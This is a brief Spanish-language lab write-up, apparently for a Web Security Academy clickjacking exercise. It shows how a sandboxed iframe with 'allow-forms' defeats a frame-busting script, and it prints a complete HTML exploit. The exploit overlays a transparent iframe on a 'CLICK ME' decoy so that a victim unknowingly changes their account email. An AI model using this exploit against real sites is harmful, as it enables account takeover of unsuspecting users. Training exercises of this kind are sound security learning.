 
## Objetivo:

![[Pasted image 20240609205931.png]]

## Solucion:

Iniciamos sesion con nuestro usuario e intentamos llenar el input de email por url a ver si funciona y vemos que si...

![[Pasted image 20240609210419.png]]

Entonces con esto ya tenemos una ruta para colocarla en el iframe... Como vemos tenemos un puede cargar el iframe

![[Pasted image 20240609210517.png]]

Para bypassear esto hay que usar el atributo "sandbox" en iframe y agregarle la opcion "allow-forms" que al hacer esto nos permitirá enviar formularios...

El "exploit" quedaria de la siguiente manera

```
<!DOCTYPE html>

<html lang="en">

<head>

<meta charset="UTF-8">

<meta name="viewport" content="width=device-width, initial-scale=1.0">

<title>Document</title>

  

<style>

iframe {

width: 1000px;

height: 700px;

z-index: 2;

position: relative;

opacity: 0.2;

}

  

div {

position: absolute;

z-index: 1;

top: 465px;

left: 50px;

}

  

</style>

</head>

<body>

<div>CLICK ME</div>

<iframe src="https://0a0d00d40434184a80184e4700d8002a.web-security-academy.net/my-account?email=pwned@mail.com" sandbox="allow-forms"></iframe>

</body>

</html>

```


Luego repetimos lo mismo de los laboratorios anteriores, cambiamos el "opacity" del iframe a 0.000001 lo guardamos y enviamos a la victima...


![[Pasted image 20240609210847.png]]